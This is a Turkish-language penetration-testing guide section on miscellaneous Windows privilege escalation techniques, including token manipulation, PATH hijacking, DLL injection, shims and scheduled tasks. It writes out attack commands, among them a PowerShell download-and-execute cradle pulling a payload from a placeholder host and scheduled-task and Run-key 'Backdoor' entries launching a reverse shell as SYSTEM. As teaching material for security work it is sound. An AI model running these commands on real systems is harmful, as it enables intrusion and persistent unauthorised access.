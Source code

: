 **Windows Privilege Escalation: Miscellaneous Techniques (Çeşitli Teknikler)**

Bu bölüm, diğer kategorilere tam olarak uymayan ancak Windows sistemlerinde privilege escalation için sıklıkla kullanılan yöntemleri içerir. Bu yöntemler genellikle güvenlik önlemlerini aşmayı veya sistem yapılandırmalarını kötüye kullanmayı hedefler.

---

### **12.1. Token Manipulation (Erişim Belirteci Manipülasyonu)**

Windows’ta erişim belirteçleri (tokens), kullanıcıların ve işlemlerin yetkilerini yönetir. Yanlış yapılandırılmış belirteçler saldırganlar tarafından manipüle edilerek yetki artırımı sağlanabilir.

#### **Tespit**
1. Mevcut erişim belirteçlerini kontrol etmek için:
   ```cmd
   whoami /priv
   ```
2. Kullanıcının **SeImpersonatePrivilege** veya **SeAssignPrimaryTokenPrivilege** gibi ayrıcalıklara sahip olup olmadığını kontrol edin.

#### **Kötüye Kullanma**
- Mimikatz kullanarak belirteç manipülasyonu:
   ```cmd
   mimikatz.exe
   token::elevate
   ```

---

### **12.2. Environment Variable Exploits (Ortam Değişkenleri İstismarı)**

Bazı uygulamalar, ortam değişkenlerini (environment variables) kullanarak çalışır. Eğer bu değişkenler yanlış yapılandırılmışsa veya saldırgan tarafından kontrol edilebiliyorsa, privilege escalation sağlanabilir.

#### **Kötüye Kullanma**
1. Ortam değişkenlerini listeleyin:
   ```cmd
   set
   ```
2. Yazılabilir bir değişken bulun (ör. PATH) ve zararlı bir uygulama ekleyin:
   ```cmd
   set PATH=C:\malicious\directory;%PATH%
   ```
3. Hedef uygulama çalıştırıldığında zararlı kod tetiklenir.

---

### **12.3. DLL Injection (DLL Enjeksiyonu)**

Bir işlemin çalışması sırasında, kötü niyetli bir DLL dosyası yüklenerek kod çalıştırılabilir.

#### **Kötüye Kullanma**
1. Hedef bir işlemin PID’sini öğrenin:
   ```cmd
   tasklist
   ```
2. **DllInjector** gibi bir araç kullanarak zararlı DLL’i hedef işlemin belleğine enjekte edin.

---

### **12.4. Abusing Windows Subsystem for Linux (WSL)**

WSL, Windows üzerinde Linux komutlarının çalıştırılmasına olanak tanır. Yanlış yapılandırıldığında saldırganlar bu özelliği kötüye kullanabilir.

#### **Kötüye Kullanma**
1. WSL’nin yüklü olup olmadığını kontrol edin:
   ```cmd
   wsl --list
   ```
2. WSL’de bir zararlı script çalıştırarak Windows dosya sistemine erişin:
   ```bash
   echo "your payload" > /mnt/c/temp/payload.bat
   ```

---

### **12.5. Abusing Weak Permissions (Zayıf İzinleri Kötüye Kullanma)**

Sistem dosyalarının, dizinlerinin veya kayıt defteri anahtarlarının zayıf izinlere sahip olması, saldırganların yetkilerini artırmasına olanak tanır.

#### **Tespit**
- **AccessChk** kullanarak yazılabilir dosyaları kontrol edin:
   ```cmd
   accesschk.exe -wvu "Users" C:\Windows
   ```

#### **Kötüye Kullanma**
1. Yazılabilir bir dosya veya kayıt defteri anahtarı bulun.
2. Dosyayı zararlı bir payload ile değiştirin veya anahtara zararlı bir komut ekleyin.

---

### **12.6. Windows Application Compatibility Shims**

Windows Shims, eski uygulamaları yeni Windows sürümlerinde çalıştırmak için kullanılan bir özelliktir. Yanlış yapılandırıldığında privilege escalation için kullanılabilir.

#### **Kötüye Kullanma**
1. Zararlı bir shim veritabanı oluşturun:
   ```cmd
   sdbinst.exe malicious.sdb
   ```
2. Shim’i hedef bir uygulamaya ilişkilendirerek payload’ı çalıştırın.

---

### **12.7. Fileless Attacks**

Fileless saldırılar, hedef sisteme zararlı bir dosya bırakmadan bellek veya komut istemi üzerinden çalışır.

#### **Kötüye Kullanma**
1. PowerShell ile fileless bir payload çalıştırın:
   ```powershell
   IEX(New-Object Net.WebClient).DownloadString('http://[IP]/payload.ps1')
   ```

---

### **12.8. Scheduled Tasks Manipulation**

Zamanlanmış görevler, genellikle SYSTEM yetkisiyle çalışır. Bu görevler yanlış yapılandırılmışsa saldırganlar tarafından manipüle edilebilir.

#### **Kötüye Kullanma**
1. Zamanlanmış görevleri listeleyin:
   ```cmd
   schtasks /query /fo LIST /v
   ```
2. Mevcut bir görevi değiştirin veya yeni bir görev oluşturun:
   ```cmd
   schtasks /create /tn "Backdoor" /tr "C:\reverse_shell.exe" /sc onlogon /ru SYSTEM
   ```

---

### **12.9. Remote Registry Exploitation**

Windows’un uzaktan kayıt defteri düzenleme özelliği, yanlış yapılandırıldığında privilege escalation için kullanılabilir.

#### **Kötüye Kullanma**
1. Remote Registry hizmetinin açık olup olmadığını kontrol edin:
   ```cmd
   sc qc RemoteRegistry
   ```
2. Kayıt defterine zararlı bir anahtar ekleyin:
   ```cmd
   reg add \\target\HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v Backdoor /t REG_SZ /d "C:\reverse_shell.exe"
   ```

---

### **12.10. Tools for Miscellaneous Techniques**

- **AccessChk:** Zayıf izinlerin tespiti için.
- **Mimikatz:** Belirteç manipülasyonu için.
- **Process Monitor (ProcMon):** DLL injection gibi süreçleri izlemek için.
- **PowerShell Empire:** Fileless saldırılar için.

---
